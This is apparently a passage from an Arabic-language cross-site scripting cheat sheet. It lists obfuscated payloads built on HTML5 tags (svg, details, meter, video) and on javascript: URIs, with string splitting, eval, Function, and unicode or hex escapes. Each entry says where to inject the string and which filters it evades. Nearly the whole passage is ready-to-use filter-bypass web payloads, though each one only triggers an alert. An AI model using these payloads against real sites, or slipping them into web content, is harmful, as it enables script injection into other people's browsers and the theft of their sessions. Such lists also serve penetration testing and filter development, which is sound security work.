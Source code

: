 - **الحقن**: `<img src=x onerror=Function('alert("XSS")')()>`
  - **الإدخال**: أدخل في URL: `https://example.com/search?query=<img src=x onerror=Function('alert("XSS")')()>`
  - **كيف يعمل**: يستخدم `Function` في حدث `onerror`.
  - **متى يُستخدم؟**: لتجنب فلاتر الأحداث القياسية.
- **الحقن**: `<svg onload=('con'+'firm')('XSS')>`
  - **الإدخال**: أدخل في نموذج: `<svg onload=('con'+'firm')('XSS')>`
  - **كيف يعمل**: يقسم `confirm` في حدث `onload`.
  - **متى يُستخدم؟**: لاختبار وسوم HTML5.
- **الحقن**: `<input autofocus onfocus=eval('al'+'ert')('XSS')>`
  - **الإدخال**: أدخل في تعليق: `<input autofocus onfocus=eval('al'+'ert')('XSS')>`
  - **كيف يعمل**: يستخدم تقسيم `alert` في حدث `onfocus`.
  - **متى يُستخدم؟**: لتجنب فلاتر حقول الإدخال.

#### ح. وسوم HTML5 معقدة
{ #XSS_Idea_for_SVG_tag / #XSS_with_out_alret   /  #XSS_unique_tags}
استغلال وسوم HTML5 مع شيفرة معقدة.
- **الحقن**: `<svg onload=window['alert']('XSS')>`
  - **الإدخال**: أدخل في حقل: `<svg onload=window['alert']('XSS')>`
  - **كيف يعمل**: يستخدم `window['alert']` في وسم SVG.
  - **متى يُستخدم؟**: لتجنب فلاتر تحظر `<script>`.
- **الحقن**: `<svg><script>('al'+'ert')('XSS')</script></svg>`
  - **الإدخال**: أدخل في URL: `https://example.com/search?query=<svg><script>('al'+'ert')('XSS')</script></svg>`
  - **كيف يعمل**: يقسم `alert` داخل SVG.
  - **متى يُستخدم؟**: لاختبار وسوم HTML5.
- **الحقن**: `<details open ontoggle=Function('alert("XSS")')()>`
  - **الإدخال**: أدخل في نموذج: `<details open ontoggle=Function('alert("XSS")')()>`
  - **كيف يعمل**: يستخدم `Function` في حدث `ontoggle`.
  - **متى يُستخدم؟**: لتجنب فلاتر الأحداث.
- **الحقن**: `<meter value=2 min=0 max=10 onmouseover=('al'+'ert')('XSS')>2/10</meter>`
  - **الإدخال**: أدخل في تعليق: `<meter value=2 min=0 max=10 onmouseover=('al'+'ert')('XSS')>2/10</meter>`
  - **كيف يعمل**: يقسم `alert` في حدث `onmouseover`.
  - **متى يُستخدم؟**: لاختبار وسوم HTML5 غير شائعة.
- **الحقن**: `<video><source onerror=eval('al'+'ert')('XSS')></video>`
  - **الإدخال**: أدخل في حقل: `<video><source onerror=eval('al'+'ert')('XSS')></video>`
  - **كيف يعمل**: يستخدم تقسيم `alert` في حدث `onerror`.
  - **متى يُستخدم؟**: لتجنب فلاتر وسوم الفيديو.

#### ط. JavaScript URIs معقدة
{ #ideas_for_url }
تعقيد عناوين `javascript:` لتجاوز فلاتر URLs.
- **الحقن**: `javascript:('al'+'ert')('XSS')`
  - **الإدخال**: أدخل في رابط: `<a href="javascript:('al'+'ert')('XSS')">اضغط</a>`
  - **كيف يعمل**: يقسم `alert` في عنوان `javascript:`.
  - **متى يُستخدم؟**: لتجنب فلاتر URLs.
- **الحقن**: `javascript://%0Awindow['alert']('XSS')`
  - **الإدخال**: أدخل في حقل: `<a href="javascript://%0Awindow['alert']('XSS')">اضغط</a>`
  - **كيف يعمل**: يستخدم سطر جديد مع `window['alert']`.
  - **متى يُستخدم؟**: لتجنب فلاتر صارمة.
- **الحقن**: `javascript:\u0061lert('XSS')`
  - **الإدخال**: أدخل في رابط: `<a href="javascript:\u0061lert('XSS')">اضغط</a>`
  - **كيف يعمل**: يشفر `a` بيونيكود.
  - **متى يُستخدم؟**: لتجنب فلاتر النصوص.
- **الحقن**: `javascript:eval('\x61lert(\'XSS\')')`
  - **الإدخال**: أدخل في حقل: `<a href="javascript:eval('\x61lert(\'XSS\')')">اضغط</a>`
  - **كيف يعمل**: يشفر `a` بصيغة هيكس.
  - **متى يُستخدم؟**: لتجنب فلاتر تحظر النصوص.
- **الحقن**: `javascript:Function('alert("XSS")')()`
  - **الإدخال**: أدخل في رابط: `<a href="javascript:Function('alert("XSS")')()">اضغط</a>`
  - **كيف يعمل**: يستخدم `Function` في عنوان `javascript:`.
  - **متى يُستخدم؟**: لتجنب فلاتر URLs القياسية.